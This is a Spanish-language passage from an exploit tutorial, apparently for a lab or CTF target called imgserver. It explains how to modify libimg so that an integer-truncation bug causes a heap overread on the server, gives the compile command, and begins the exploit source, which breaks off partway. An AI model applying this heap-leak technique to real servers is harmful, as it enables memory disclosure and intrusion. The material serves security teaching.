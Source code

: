 Primero, para que el exploit funcione correctamente, será necesario hacer una modificación en  el código de libimg. La biblioteca se ejecuta del lado del atacante, con lo cuál modificarla es efectivamente un recurso válido. El cambio que hay que hacer es muy simple: en la función `make_grayscale_image`, hay que reemplazar la línea

```c
unsigned int px_total = width*height;
```

por

```c
unsigned short px_total = width*height;
```

Esto evitará que el exploit se quede colgado al momento de explotar el integer overflow para leer el heap del servidor. Luego de hacer el cambio compilamos libimg. Podemos usar el script de compilación o podemos ejecutar el siguiente comando:

```bash
clang-8 -g libimg.c -shared -fPIC -o libimg.so
```



El código del exploit es entonces el que listamos a continuación. Cada uno de los pasos está comentado en detalle. Algo a tener en cuenta es que el exploit **asume un imgserver en estado inicial**. Robustecer el exploit para funcionar en el caso general, si es posible, queda de tarea para el lector. Una alternativa podría ser reservar una gran cantidad de bloques pequeños para consumir cualquier espacio fragmentado que haya podido quedar, en forma tal de que las reservas previas no afecten el correcto funcionamiento del exploit.

```c
// xploit.c

#include <stdint.h>
#include <stdlib.h>
#include <stdio.h>
#include <strings.h>
#include <string.h>

#include "libimg.h"


#define RESPONSE_BUFFER_LENGTH 65535

uint8_t response_buffer[RESPONSE_BUFFER_LENGTH];

//==============================================================================
// perform_initial_leak
//------------------------------------------------------------------------------

int perform_initial_leak() {
  uint8_t data[16];
  bzero((void*)&data, sizeof(data));

  /* Explotamos el integer overflow para filtrar el heap del objetivo.
   * 
   * El total es w*h = 65552. Este valor entra en un unsigned int,
   * pero no en un unsigned short, el cuál termina con valor 8.
   *
   * El resultado neto es un overread del lado del servidor;
   * los datos sobreleídos pueden ser luego recuperados con
   * get_grayscale_image_bytes.
   *
   */
  uint16_t w = 32776;
  uint16_t h = 2;
  uint32_t t = w*h;
```